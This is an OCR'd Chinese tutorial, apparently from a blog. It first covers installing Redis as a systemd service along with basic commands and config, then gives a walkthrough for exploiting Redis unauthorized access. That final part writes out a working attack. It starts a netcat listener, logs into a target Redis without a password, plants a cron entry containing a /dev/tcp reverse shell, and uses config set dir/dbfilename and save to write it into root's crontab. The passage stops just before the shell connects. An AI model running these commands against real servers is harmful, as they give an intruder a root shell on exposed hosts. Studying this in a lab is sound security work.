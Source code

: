 ```
ExecStart=/usr/local/bin/redis-server /root/redis-6.2.13/redis.conf #配置文件所在路径
PrivateTmp=true
[Install]
WantedBy=multi-user.target
#三、重载系统服务
systemctl daemon-reload
#四、需要重启主机
reboot
9. 然后可以用下面这组命令来操作redis
#启动
systemctl start redis
#停止
systemctl stop redis
#重启
systemctl restart redis
#查看状态
systemctl status redis
#最后设置redis开机自启
systemctl enable redis
10. 测试连接redis服务端，安装完redis之后，默认会安装一个本地的客户端redis-cli，可以通过这个
客户端连接操作服务端
redis-cli #直接回车就能连接本地的redis数据库服务端，默认是没有密码的
reids-cli -h 远程ip地址 #可连接远程redis服务端
```
到目前为止，redis就算是安装完成了。
### redis基本操作
redis默认端口为6379，这个要记住。
```
添加数据：set key value
获取数据：get key
删除数据：del key
查看有哪些key：keys *
清空所有数据：flushall # (慎用)
```
### redis配置操作
```
config set dir /home/test # 设置工作目录
config set dbfilename redis.rdb # 设置备份文件名
config get dir # 检查工作目录是否设置成功
config get dbfilename # 检查备份文件名是否设置成功
save # 进行一次备份操作
```
redis是高速缓存型数据库，也就是内存存储，但是也支持持久化，也就保存到磁盘上，保存到磁盘上时是通过一个文件来保存的，redis可以通过redis的操作语句来控制redis在系统中保存数据的目录和文件
名称。redis进行save后生成的持久化存储文件路径就是dir/dbfilename
### redis未授权访问漏洞利用方式
#### 一、利用定时任务反弹shell
监听机器：centos7.8
```
nc -lvvp 4444 #本机ip地址为192.168.61.149
```
通过目标主机的redis未授权访问漏洞写入反弹shell的指令
```
redis-cli -h 192.168.61.148 #未授权登录目标主机的redis
set xxx "\n\n* * * * * /bin/bash -
i>&/dev/tcp/192.168.61.149/4444 0>&1\n\n" #* * * * *表示每分钟执行一次，/bin/bash -i是创建一个bash终端，>&/dev/tcp/192.168.61.149/4444是发送给192.168.61.149的4444端口的监听程序。
config set dir /var/spool/cron #设置备份文件为系统定时任务路径
config set dbfilename root #定时任务的文件名称是根据用户名称来的，因此将备份文件命名为root
save #保存，会将redis中的数据保存到指定的目录和dbfilename指定的文件中去。即创建了root用户的定时任务，任务内容为每分钟反弹shell至监听主机
```
一会我们就看到监听机器上看到了反弹回来的shell，如下